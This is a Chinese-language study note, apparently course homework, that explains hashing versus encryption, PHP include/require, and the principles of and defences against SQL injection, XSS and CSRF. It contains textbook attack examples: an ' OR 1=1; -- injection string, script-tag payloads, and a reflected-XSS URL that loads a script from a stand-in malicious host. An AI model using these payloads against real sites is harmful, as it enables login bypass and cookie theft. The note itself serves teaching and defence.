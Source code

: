 ## 請說明雜湊跟加密的差別在哪裡，為什麼密碼要雜湊過後才存入資料庫
### 雜湊跟加密的差別
　1. 加密需要密鑰，且可以透過解密得到原文。（加密可逆）
  2. 雜湊不需密鑰，無法逆向解出原始輸入。（雜湊不可逆）
    - 雖然可以透過額外儲存的 rainbow table 來找尋原始輸入，但彩虹表是預先計算並儲存下來的，而不是雜湊演算法本身的設計。
### 為什麼密碼要用雜湊
因為雜湊值無法反推回原密碼，所以即便有一天資料庫不小心洩漏出去了，駭客還是拿不到使用者的密碼，只能拿到密碼的雜湊值。

## `include`、`require`、`include_once`、`require_once` 的差別
### `include`、`require`
1. 使用方式
  - `include` 有讀到該行程式碼才會執行載入
  - `require` 只要檔案被開啟就會執行載入
2. 錯誤處理
  - `include` 會印出警告訊息（E_WARNING）, 並繼續執行後半段的程式
  - `require` 會印出錯誤訊息（E_COMPILE_ERROR）, 並中止程式
### 後面帶有 `_once`
1. 多次引入相同的檔案。
2. 確保不會因為重覆引入相同的檔案，而產生函數重覆定義 (function redefinitons) 的錯誤。
3. 確保不會因為重覆引入相同的檔案，而產生變數重覆給值 (value reassignments) 的錯誤。
4. 必須安裝 PHP 4.0.1pl2 以上的版本。

## 請說明 SQL Injection 的攻擊原理以及防範方法
### 攻擊原理
> 利用 SQL 語句拼接漏洞

原本在程式裡面的字串是 
`$SQL = "SELECT * FROM user WHERE ID= " . $id . " AND Password =" . $password;`
如果使用者在 password 輸入 `' OR 1=1; --`使語句變成
 `SELECT * FROM user WHERE ID= '隨便輸入' AND Password ='' OR 1=1;`
輸入這樣的值代表什麼，代表所有畫面上的輸入值都無所謂，因為1=1恆等式一定會成立，且前面的condition為OR，所以可以把前面的where condition都忽略掉。後面再補上個分號，代表這一個SQL子句已經結束，最後再補上--，代表後面的sql為註解。
就這樣，最基本的SQL injection就成功了。

### 防範方法
1. 過濾輸入值
   - 但攻擊手法相當多種，要過濾的字元組合可能一個都漏不得，所以自己設定黑名單來進行過濾，是一件非不得以才做的事。
2. 使用程式的 sql 綁定
   - PHP 中可以先用 SQL 預處理語句的方法，使用 ? 佔位符，再使用 bind parameters
```php
$sql = 'SELECT * FROM users WHERE username = ? AND password = ?';
$stmt = $conn->prepare($sql);
$stmt->bind_param('ss', $username, $password);

$stmt->execute();
```
  - 透過這種方式，在SqlCommand執行時，會自動過濾掉可能造成問題的字元。

##  請說明 XSS 的攻擊原理以及防範方法
### 攻擊原理
XSS 主要是利用在輸入欄位輸入 JS 的 script tag來造成攻擊，透過在輸入框輸入一些特殊語法，規避掉字元的規則（或是程式本身沒有做好字串驗證）
1. Store XSS
  - 儲存型 XSS，如一般留言版功能，使用者可以輸入`<script>alert(‘你被攻擊啦！’)</script>`並存入資料庫，當留言被其他人使用時從資料庫取出，後端又沒有做做字串防範跟解析，其他使用者開啟時並會執行該惡意程式片段。
2. Reflected XSS　
  - 反射型 XSS，攻擊方式為將 script 藏在 URL 網址列中，並透過 GET 參數傳遞，下面的範例將事先寫好的 malicious.js 檔案放在 url 的 username param 中，該檔案可能是盜取帳號密碼、盜取 cookie 等惡意操作，當使用者點擊後就會被執行。
  ```
  http://localhost:8080/reflected-xss-demos/?username='><script src='http://malicious-site.com/malicious.js'></script><a href='
  ```
3. DOM Based XSS
  - DOM Based XSS 與前兩者的差別是前兩者需要在 server side 防範，DOM Based 則需要在 client side 防範。如果頁面中使用了如 innerHTML 等語法，就有注入 JS 程式碼的機會，而如果可以注入 JS 程式碼就有可能造成 cookie 資料被偷走傳到攻擊者的 server。例如攻擊者可以放入一個被隱藏看不見的 img element，不過該 img 的 src 放的是一個「攜帶 cookie 資訊的請求」，如此一來攻擊者的伺服器就可以拿到被攻擊者的 cookie 了。

### 防範
1. 輸入時的防範
  - 篩選掉特殊字串 ex:  `<script>`
  - 缺點很容易有漏洞不完善, 最好是在輸出端做解析
2. 輸出的 encoding
  - 原始 `<script>alert('xss')</script>`
  - 輸出到網頁解析 `&lt;script&gt;alert(&#x27;xss&#x27;);&lt;/script&gt;`
  - 讓瀏覽器會把它當作純文字，而不是可以執行的程式。


## 請說明 CSRF 的攻擊原理以及防範方法
### 攻擊原理
跨站請求攻擊，簡單地說，是攻擊者通過一些技術手段欺騙使用者的瀏覽器去存取一個自己曾經認證過的網站並執行一些操作（如發郵件，發訊息，甚至財產操作如轉帳和購買商品）。由於瀏覽器曾經認證過，所以被存取的網站會認為是真正的使用者操作而去執行。這利用了web中使用者身分驗證的一個漏洞：簡單的身分驗證只能保證請求是發自某個使用者的瀏覽器，卻不能保證請求本身是使用者自願發出的。

### 防範方法
1. 檢查 Referer
  - request 的 header 裡面會帶一個欄位叫做 referer，代表這個 request 是從哪個地方過來的，可以檢查這個欄位看是不是合法的 domain，不是的話直接 reject 掉即可。
  - 缺點: 容易漏掉 subdomain
2. 加上圖形驗證碼、簡訊驗證碼
  - 就跟網路銀行轉帳的時候一樣，都會要你收簡訊驗證碼，多了這一道檢查就可以確保不會被 CSRF 攻擊。
  - 最完善，但是也最麻煩，有時候只是要做一般刪除動作
3. 加上 CSRF token
  - 使用者在第一次請求網頁時，伺服器在網頁內 input:hidden 塞入 token，當表單送出時伺服器可以比對送來的 token 有無一樣，幫助判斷是否由同一個人發出
  - 缺點: 如果伺服器有開啟 CORS ，就會讓攻擊方直接發 request 並拿到 token。
4. Double Submit Cookie
  - 同上會在 form 放入 token，並在第一次請求 Set-cookie，與 token 值相同，因 cookie 發送有 domain 的限制，發送時會比較 cookie 裡的 token 與 form token 是否相符